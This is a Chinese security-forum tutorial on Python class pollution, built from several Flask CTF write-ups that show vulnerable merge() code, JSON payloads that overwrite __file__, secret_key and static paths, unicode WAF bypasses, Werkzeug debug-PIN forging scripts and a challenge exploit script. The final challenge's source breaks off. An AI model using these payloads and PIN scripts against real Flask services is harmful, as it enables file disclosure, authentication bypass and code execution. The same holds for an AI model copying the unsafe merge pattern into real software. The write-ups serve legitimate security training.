# python原型链污染-先知社区

> **来源**: https://xz.aliyun.com/news/18119  
> **文章ID**: 18119

---

NodeJs原型链污染中，对象的\_\_proto\_\_属性，指向这个对象所在的类的prototype属性。如果我们修改了son.\_\_proto\_\_中的值，就可以修改父类。

在Python中，所有以双下划线\_\_包起来的方法，统称为**Magic Method（魔术方法）**，它是一种的特殊方法，普通方法需要调用，而魔术方法不需要调用就可以自动执行。

\_\_class\_\_方法用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。 （题中可以不加）

\_\_init\_\_()方法是一种特殊的方法，被称为类的构造函数或初始化方法（类似PHP中的\_\_construct()），当创建了这个类的实例时就会调用该方法。

\_\_globals\_\_对 保存函数全局变量的字典 的引用——定义函数的模块的全局命名空间。只读，但是可以修改无继承关系的类属性甚至全局变量

\_\_file\_\_全局变量，返回当前文件路径（目录）

```
#globals辨析
secret_var = 114

def test():
    pass

class a:
    def __init__(self):
        pass

print(test.__globals__ == globals() == a.__init__.__globals__) # 比较 test 函数的全局变量字典、全局变量字典和 a 类的构造函数的全局变量字典
#True
```



直接看题

# [DASCTF 2023 & 0X401七月暑期挑战赛]EzFlask

源码

```
import uuid

from flask import Flask, request, session
# 导入黑名单列表
from secret import black_list
import json

app = Flask(__name__)
# 为 Flask 应用设置一个随机的 secret_key
app.secret_key = str(uuid.uuid4())

# 检查字符串中是否包含黑名单中的敏感字符
def check(data):
    for i in black_list:
        if i in data:
            return False
    return True

# 合并两个字典或对象
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 定义 user 类，用于存储用户信息
class user():
    def __init__(self):
        self.username = ""
        self.password = ""
        pass

    # 验证用户信息是否匹配
    def check(self, data):
        if self.username == data['username'] and self.password == data['password']:
            return True
        return False

# 存储用户对象的列表
Users = []

# 注册用户的路由处理函数
@app.route('/register',methods=['POST'])
def register():
    if request.data:
        try:
            # 检查请求数据是否合法
            if not check(request.data):
                return "Register Failed"
            # 将请求数据解析为 JSON 对象，所以我们发包要用json格式
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Register Failed"
            User = user()   # 创建 user 对象
            merge(data, User)   # 合并数据到 user 对象
            Users.append(User)   # 将 user 对象添加到用户列表中
        except Exception:
            return "Register Failed"
        return "Register Success"
    else:
        return "Register Failed"

# 登录的路由处理函数
@app.route('/login',methods=['POST'])
def login():
    if request.data:
        try:
            data = json.loads(request.data)   # 将请求数据解析为 JSON 对象
            if "username" not in data or "password" not in data:
                return "Login Failed"
            for user in Users:
                if user.check(data):   # 验证用户信息是否匹配
                    session["username"] = data["username"]   # 将用户名存储在会话中
                    return "Login Success"
        except Exception:
            return "Login Failed"
    return "Login Failed"

# 主页的路由处理函数，用于返回当前文件的源代码
@app.route('/',methods=['GET'])
def index():
    #__file__：全局变量，返回当前目录
    return open(__file__, "r").read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5010)   # 在指定的主机和端口上运行 Flask 应用
```

一眼merge函数考虑打原型链污染

查看调用


并且在最后发现直接回显全局变量\_\_file\_\_

```
@app.route('/',methods=['GET'])
def index():
    return open(__file__, "r").read()
```

那么可以考虑直接污染\_\_file\_\_的值

**常见的linux系统下环境变量的路径：**

```
/proc/1/environ （本题flag就在这里）
/proc/self/environ
/etc/profile
/etc/profile.d/*.sh
~/.bash_profile
~/.bashrc
/etc/bashrc
/proc/self/mem
/proc/self/maps
```

放在proc目录（3,4）下的环境变量配置文件，只会对当前用户起作用；在/etc下的环境变量所有的用户都起作用；

payload:

```
{
    "username":"aaa",
    "password":"bbb",
    "__class__":{
        "check":{
            "__globals__":{
                "__file__" : "/proc/1/environ"
            }
        }
    }
}

{
    "username": "aaa",
    "password": "bbb",
    "__init__": {
        "__globals__": {
            "__file__": "/proc/1/environ"
        }
    }
}
```

法二

```
{
    "username":aaa,
    "password":bbb,
    "__init\u005f_":{
        "__globals__":{
            "app":{
                "_static_folder":"/"
            }
        }
    }
}
```

在 Python 中，全局变量 app 和 \_static\_folder 通常用于构建 Web 应用程序，并且这两者在 Flask 框架中经常使用。

1. app 全局变量：

* app 是 Flask 应用的实例，是一个 Flask 对象。通过创建 app 对象，我们可以定义路由、处理请求、设置配置等，从而构建一个完整的 Web 应用程序。
* Flask 应用实例是整个应用的核心，负责处理用户的请求并返回相应的响应。可以通过 app.route 装饰器定义路由，将不同的 URL 请求映射到对应的处理函数上。
* app 对象包含了大量的功能和方法，例如 route、run、add\_url\_rule 等，这些方法用于处理请求和设置应用的各种配置。
* 通过 app.run() 方法，我们可以在指定的主机和端口上启动 Flask 应用，使其监听并处理客户端的请求。

2. \_static\_folder 全局变量：

* \_static\_folder 是 Flask 应用中用于指定静态文件的文件夹路径。静态文件通常包括 CSS、JavaScript、图像等，用于展示网页的样式和交互效果。
* 静态文件可以包含在 Flask 应用中，例如 CSS 文件用于设置网页样式，JavaScript 文件用于实现网页的交互功能，图像文件用于显示图形内容等。
* 在 Flask 中，可以通过 app.static\_folder 属性来访问 \_static\_folder，并指定存放静态文件的文件夹路径。默认情况下，静态文件存放在应用程序的根目录下的 static 文件夹中。
* Flask 在处理请求时，会自动寻找静态文件的路径，并将静态文件发送给客户端，使网页能够正确地显示样式和图像。

综上所述，app 和 \_static\_folder 这两个全局变量在 Flask 应用中都扮演着重要的角色，app 是整个应用的核心实例，用于处理请求和设置应用的配置，而 \_static\_folder 是用于指定静态文件的存放路径，使网页能够正确地加载和显示样式和图像。

/static/proc/1/environ：由于"\_static\_folder":"/"把静态目录直接设置为了根目录，所以根目录下/proc/1/environ可以通过访问静态目录/static/proc/1/environ访问。

**法三**

来自

[DASCTF 2023 & 0X401七月暑期挑战赛 Web方向 EzFlask ez\_cms MyPicDisk 详细题解wp-CSDN博客](https://blog.csdn.net/Jayjay___/article/details/132123785)

访问/console路由

PIN码也就是flask在开启debug模式下，进行代码调试模式的进入密码，需要正确的PIN码才能进入调试模式

pin码生成要六要素：

1.username通过getpass.getuser()读取或者通过文件读取/etc/passwd

2.modname通过getattr(mod,“file”,None)读取，默认值为flask.app

3.appname通过getattr(app,“name”,type(app).name)读取，默认值为Flask

4.moddirflask库下app.py的绝对路径、当前网络的mac地址的十进制数，通过getattr(mod,“file”,None)读取实际应用中通过报错读取,如传参的时候给个不存在的变量

5.uuidnodemac地址的十进制,通过uuid.getnode()读取，通过文件/sys/class/net/eth0/address得到16进制结果，转化为10进制进行计算

6.machine\_id机器码，每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot\_id，docker靶机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id，在非docker环境下读取后两个，非docker环境三个都需要读取。一般生成pin码不对就是这错了

python3.6采用MD5加密，3.8采用[sha1](https://so.csdn.net/so/search?q=sha1&spm=1001.2101.3001.7020)加密。脚本们如下：

```
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
     'flaskweb'# username
     'flask.app',# modname
     'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
     '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
     '25214234362297',# str(uuid.getnode()),  /sys/class/net/ens33/address
     '0402a7ff83cc48b41b227763d03b386cb5040585c82f3b99aa3ad120ae69ebaa'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
   h.update(b'pinsalt')
   num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
   for group_size in 5, 4, 3:
       if len(num) % group_size == 0:
          rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                      for x in range(0, len(num), group_size))
          break
       else:
          rv = num

print(rv)
```

```
#sha1
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    '2485377581187',#  /sys/class/net/eth0/address 16进制转10进制
    #machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup
    '653dc458-4634-42b1-9a7a-b22a082e1fce55d22089f5fa429839d25dcea4675fb930c111da3bb774a6ab7349428589aefd'#  /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

那就开始用 解法一 读取PIN值六要素

**username**：root



**modname**：默认值为flask.app

**appname**：默认值为Flask

**moddir**：/usr/local/lib/python3.10/site-packages/flask/app.py



**uuidnode**：4e:35:a1:94:9e:da

十进制是85992251104986





**machine\_id**：96cec10d3d9307792745ec3b85c89620docker-f631baf753180826471e91bf575eecadcfd9788e873f07b98fe6f7a4a95f42c3.scope

其中，以docker为界限。

96cec10d3d9307792745ec3b85c89620在/proc/sys/kernel/random/boot\_id里面



docker-f631baf753180826471e91bf575eecadcfd9788e873f07b98fe6f7a4a95f42c3.scope在/proc/self/cgroup里面



解题脚本来源：[2023DASCTF&0X401 WriteUp (qq.com)](https://mp.weixin.qq.com/s/4PdBJvd7mhzqjW1TEL6eyQ)

```
import hashlib
from itertools import chain

# 可能的公共部分，包括用户名、模块名、类名以及相关模块路径信息
probably_public_bits = [
    'root',                # username
    'flask.app',           # modname
    'Flask',               # appname
    '/usr/local/lib/python3.10/site-packages/flask/app.py'   # moddir
]

# 私有部分，包括一些唯一的标识信息
private_bits = [
    '85992251104986',       # uuidnode
    '96cec10d3d9307792745ec3b85c89620docker-f631baf753180826471e91bf575eecadcfd9788e873f07b98fe6f7a4a95f42c3.scope'  # machine_id
]

# 创建 SHA-1 哈希对象
h = hashlib.sha1()

# 将可能的公共部分和私有部分的信息串联在一起，并计算 SHA-1 哈希值
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)

# 更新哈希值，使用 b'cookiesalt' 作为额外的盐值
h.update(b'cookiesalt')

# 构造 cookie 名称 '__wzd' + SHA-1 哈希值的前20位
cookie_name = '__wzd' + h.hexdigest()[:20]

num = None

# 如果 num 为空，则计算 num 值
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None

# 如果 rv 为空，则根据 num 的长度进行格式化处理，组成带分隔符的字符串
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

# 打印结果
print(rv)
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455
```

运行结果：960-245-355



成功进入控制台



获取flag



[(3条消息) 关于ctf中flask算pin总结\_丨Arcueid丨的博客-CSDN博客](https://blog.csdn.net/qq_35782055/article/details/129126825)

[(3条消息) Flask debug模式算pin码flask pin码Ys3ter的博客-CSDN博客](https://blog.csdn.net/weixin_54648419/article/details/123632203)

# ctfshow easy\_polluted

```
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import json
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

不难看出只需将app.secret\_key污染成我们想要的值即可

经典merge函数，对于merge函数进行分析，整体就是实现一个合并功能

```
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

\_\_getitem\_\_是一个魔法函数

当对一个对象使用 obj[key] 语法时，Python 会自动调用 obj.\_\_getitem\_\_(key)方法。

这使得自定义对象可以像内置的容器（如列表、字典）一样使用索引。

```
class MyContainer:
   def __init__(self):
       self.data = [1, 2, 3]

   def __getitem__(self, index):
       return self.data[index]

container = MyContainer()
print(container[0])  # 输出: 1
```


```
{
  "username": "adminer",
  "password": "123",
  "__init__": {
    "__globals__": {
      "app": {
        "secret_key": "123",
        "_static_folder": "/"
      }
    }
  }
}
```



有waf，用unicode绕过(json.loads可以加载unicode)

{"username":"adminer","password":"123","\_\_init\_\_" : {"\_\_globals\_\_" :{"app" :{"secret\_key": "123","\_static\_folder":"/"}}}}

另附官方题解

```
import requests
import json

def poc_1(session, url):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Content-Type": "application/json",
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show"
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    "config": {
                        r"SECRET\u005FKEY": "Dragonkeep"
                    }
                }
            }
        }
    }), verify=False)
    return res.text

def poc_2(session, url):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Content-Type": "application/json",
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show"
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    r"jinja\u005F\u0065nv": {
                        r"variable\u005Fstart\u005F\u0073tring": "[#",
                        r"variable\u005Fend\u005F\u0073tring": "#]"
                    }
                }
            }
        }
    }), verify=False)
    return res.text

def poc_admin(session, url):
    url = url + "/admin"
    headers = {
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show",
        'Cookie': 'session=eyJwYXNzd29yZCI6IkRyYWdvbmtlZXAiLCJ1c2VybmFtZSI6ImFkbWluZXIifQ.ZoPoJw.XozJYtjOp2mah8LEEoPZZzdIjzc'
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    r"jinja\u005F\u0065nv": {
                        r"variable\u005Fstart\u005F\u0073tring": "[#",
                        r"variable\u005Fend\u005F\u0073tring": "#]"
                    }
                }
            }
        }
    }), verify=False)
    return res 

if __name__ == '__main__':
    url = "http://fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show/"
    session = requests.Session()
    result1 = poc_1(session, url)
    print(result1)
    result2 = poc_2(session, url)
    print(result2)
    flag = poc_admin(session, url)
    print(flag.text)
```

# [GHCTF 2024 新生赛]Po11uti0n~~~

```
import uuid
from flask import Flask, request, session
from secret import black_list
import json


'''
  @Author: hey
  @message: Patience is the key in life,I think you'll be able to find vulnerabilities in code audits.
  * Th3_w0r1d_of_c0d3_1s_be@ut1ful_ but_y0u_c@n’t_c0mp1l3_love.
'''

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def cannot_be_bypassed(data):
    for i in black_list:
        if i in data:
            return False
    return True

def magicallllll(src, dst):
    if hasattr(dst, '__getitem__'):
        for key in src:
            if isinstance(src[key], dict):
                 if key in dst and isinstance(src[key], dict):
                    magicallllll(src[key], dst[key])
                 else:
                     dst[key] = src[key]
            else:
                dst[key] = src[key]
    else:
        for key, value in src.items() :
            if hasattr(dst,key) and isinstance(value, dict):
                magicallllll(value,getattr(dst, key))
            else:
                setattr(dst, key, value)

class user():
    def __init__(self):
        self.username = ""
        self.password = ""
        pass
    def check(self, data):
        if self.username == data['username'] and self.password == data['password']:
            return True
        return False

Users = []

@app.route('/user/register',methods=['POST'])
def register():
    if request.data:
        try:
            if not cannot_be_bypassed(request.data):
                return "Hey bro,May be you should check your inputs,because it contains malicious data,Please don't hack me~~~ :) :) :)"
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Ohhhhhhh,The username or password is incorrect,Please re-register!!!"
            User = user()
            magicallllll(data, User)
            Users.append(User)
        except Exception:
            return "Ohhhhhhh,The username or password is incorrect,Please re-register!!!"
        return "Congratulations,The username and password is correct,Register Success!!!"
    else:
        return "Ohhhhhhh,The username or password is incorrect,Please re-register!!!"

@app.route('/user/login',methods=['POST'])
def login():
    if request.data:
        try:
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "The username or password is incorrect,Login Failed,Please log in again!!!"
            for user in Users:
                if user.cannot_be_bypassed(data):
                    session["username"] = data["username"]
                    return "Congratulations,The username and password is correct,Login Success!!!"
        except Exception:
            return "The username or password is incorrect,Login Failed,Please log in again!!!"
    return "Hey bro,May be you should check your inputs,because it contains malicious data,Please don't hack me~~~ :) :) :)"

@app.route('/',methods=['GET'])
def index():
